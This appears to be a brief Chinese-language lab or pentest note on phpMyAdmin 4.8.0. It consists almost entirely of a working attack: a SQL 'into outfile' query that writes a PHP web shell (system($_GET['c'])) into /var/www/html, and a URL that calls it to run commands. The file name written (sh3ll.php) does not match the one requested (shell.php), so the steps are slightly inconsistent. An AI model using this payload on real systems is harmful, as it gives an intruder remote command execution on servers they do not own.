 # phpmyadmin(4.8.0)

输入sql页面

```bash
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/html/sh3ll.php"
而后
http://10.129.227.147/shell.php?c=id
```

‍
